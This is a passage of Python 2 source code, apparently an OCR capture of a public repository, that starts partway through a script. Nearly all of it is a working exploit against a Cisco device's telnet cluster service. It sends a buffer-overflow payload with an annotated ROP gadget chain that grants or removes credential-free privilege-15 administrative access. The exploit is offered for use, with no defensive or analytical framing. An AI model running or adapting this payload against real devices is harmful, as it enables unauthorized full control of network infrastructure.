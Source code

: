 ```python
    pass
else:
    print sys.argv[0] + ' [host] --set/--unset'
    sys.exit()

s = socket.socket( socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 23))

print '[+] Connection OK'
print '[+] Recieved bytes from telnet service:', repr(s.recv(1024))
#sleep(0.5)
print '[+] Sending cluster option'

print '[+] Setting credless privilege 15 authentication' if set_credless else '[+] Unsetting credless privilege 15 authentication'

payload = '\xff\xfa\x24\x00'
payload += '\x03CISCO_KITS\x012:'
payload += 'A' * 116
payload += '\x00\x00\x37\xb4'       # first gadget address 0x000037b4: lwz r0, 0x14(r1); mtlr r0; lwz r30, 8(r1); lwz r31, 0xc(r1); addi r1, r1, 0x10; blr;
#next bytes are shown as offsets from r1
payload += '\x02\x2c\x8b\x74'       # +8  address of pointer to is_cluster_mode function - 0x34
if set_credless is True:
    payload += '\x00\x00\x99\x80'   # +12 set  address of func that rets 1
else:
    payload +=  '\x00\x04\xea\x58'  # unset 
payload += 'BBBB'                   # +16(+0) r1 points here at second gadget
payload += '\x00\xdf\xfb\xe8'       # +4 second gadget address 0x00dffbe8: stw r31, 0x138(r30); lwz r0, 0x1c(r1); mtlr r0; lmw r29, 0xc(r1); addi r1, r1, 0x18; blr;
payload += 'CCCC'                   # +8 
payload += 'DDDD'                   # +12
payload += 'EEEE'                   # +16(+0) r1 points here at third gadget
payload += '\x00\x06\x78\x8c'       # +20(+4) third gadget address. 0x0006788c: lwz r9, 8(r1); lwz r3, 0x2c(r9); lwz r0, 0x14(r1); mtlr r0; addi r1, r1, 0x10; blr; 
payload += '\x02\x2c\x8b\x60'       # +8  r1+8 = 0x022c8b60
payload += 'FFFF'                   # +12 
payload += 'GGGG'                   # +16(+0) r1 points here at fourth gadget 
payload += '\x00\x6b\xa1\x28'       # +20(+4) fourth gadget address 0x006ba128: lwz r31, 8(r1); lwz r30, 0xc(r1); addi r1, r1, 0x10; lwz r0, 4(r1); mtlr r0; blr;
if set_credless:
    payload += '\x00\x12\x52\x1c'   # +8 address of the replacing function that returns 15 (our desired privilege level). 0x0012521c: li r3, 0xf; blr; 
else:
    payload += '\x00\x04\xe6\xf0'   # unset
payload += 'HHHH'                   # +12
payload += 'IIII'                   # +16(+0) r1 points here at fifth gadget
payload += '\x01\x48\xe5\x60'       # +20(+4) fifth gadget address 0x0148e560: stw r31, 0(r3); lwz r0, 0x14(r1); mtlr r0; lwz r31, 0xc(r1); addi r1, r1, 0x10; blr;
payload += 'JJJJ'                   # +8 r1 points here at third gadget
payload += 'KKKK'                   # +12
payload += 'LLLL'                   # +16
payload += '\x01\x13\x31\xa8'       # +20 original execution flow return addr
payload += ':15:' +  '\xff\xf0'

s.send(payload)

print '[+] All done'

s.close()
```
